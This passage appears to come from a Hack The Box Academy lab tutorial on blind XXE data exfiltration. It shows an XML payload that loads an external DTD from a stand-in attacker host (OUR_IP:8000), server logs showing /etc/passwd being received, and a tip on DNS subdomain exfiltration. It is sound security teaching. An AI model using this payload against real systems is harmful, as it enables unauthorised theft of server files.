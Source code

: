 So, we will first write the above PHP code to `index.php`, and then start a PHP server on port `8000`, as follows:

&#x20; Blind Data Exfiltration

```shell-session
root@htb[/htb]$ vi index.php # here we write the above PHP code
root@htb[/htb]$ php -S 0.0.0.0:8000

PHP 7.4.3 Development Server (http://0.0.0.0:8000) started
```

Now, to initiate our attack, we can use a similar payload to the one we used in the error-based attack, and simply add `<root>&content;</root>`, which is needed to reference our entity and have it send the request to our machine with the file content:

Code: xml

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```

Then, we can send our request to the web application: ![blind\_request](https://academy.hackthebox.com/storage/modules/134/web\_attacks\_xxe\_blind\_request.jpg)

Finally, we can go back to our terminal, and we will see that we did indeed get the request and its decoded content:

&#x20; Blind Data Exfiltration

```shell-session
PHP 7.4.3 Development Server (http://0.0.0.0:8000) started
10.10.14.16:46256 Accepted
10.10.14.16:46256 [200]: (null) /xxe.dtd
10.10.14.16:46256 Closing
10.10.14.16:46258 Accepted

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...SNIP...
```

Tip: In addition to storing our base64 encoded data as a parameter to our URL, we may utilize `DNS OOB Exfiltration` by placing the encoded data as a sub-domain for our URL (e.g. `ENCODEDTEXT.our.website.com`), and then use a tool like `tcpdump` to capture any incoming traffic and decode the sub-domain string to get the data. Granted, this method is more advanced and requires more effort to exfiltrate data through.

***
